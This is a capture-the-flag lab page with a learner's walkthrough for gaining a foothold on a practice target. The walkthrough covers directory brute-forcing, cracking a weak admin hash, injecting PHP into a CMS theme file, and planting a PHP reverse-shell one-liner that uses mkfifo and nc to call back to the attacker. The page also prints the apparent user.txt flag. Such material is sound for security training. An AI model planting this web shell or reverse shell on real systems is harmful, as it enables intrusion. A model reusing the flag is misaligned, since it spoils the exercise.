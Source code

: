 Remember that enumeration is an iterative process. After performing our `Nmap` port scans, make sure to perform detailed enumeration against all open ports based on what is running on the discovered ports. Follow the same process as we did with `Nibbles`:

-   Enumeration/Scanning with `Nmap` - perform a quick scan for open ports followed by a full port scan
-   Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include `whatweb` and `Gobuster`
-   If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.
-   After identifying the technologies in use, use a tool such as `Searchsploit` to find public exploits or search on Google for manual exploitation techniques
-   After gaining an initial foothold, use the `Python3 pty` trick to upgrade to a pseudo TTY
-   Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials
-   Organize this data offline to determine the various ways to escalate privileges to root on this target

There are two ways to gain a foothold—one using `Metasploit` and one via a manual process. Challenge ourselves to work through and gain an understanding of both methods.

There are two ways to escalate privileges to root on the target after obtaining a foothold. Make use of helper scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) and [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to assist you. Filter through the information searching for two well-known privilege escalation techniques.

Have fun, never stop learning, and do not forget to `think outside of the box`!

Spawn the target, gain a foothold and submit the contents of the user.txt flag.

`7002d65b149b0a4d19132a66feed21d8`
* `nmap <ip>` for available ports
* connect to the ip given through port 80
* `gobuster dir -u http://<ip given> -w /usr/share/dirb/wordlists/common.txt` youll find admin is a valid user
* `gobuster dir -u http://<ip given>/admin -w /usr/share/dirb/wordlists/common.txt` youll find the hash for admin user
* decode hash on google, youll find the password is admin and it was coded on SHA1
* access admin page with user ans pass
* surfing through the page you can notice the theme files can be modified
* used a php user id check tag on one of them (my case was sidebar.inc.php)
* `curl http://10.129.246.183/theme/Innovation/sidebar.inc.php` will return a user id, means the script works
* do reverse shell by saving the script <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> <listening port>>/tmp/f"); ?>
* check python version installed on the page `which python3`
* upgrade to full TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
* use command `find / -name "user.txt"` to find the file and open it


After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.

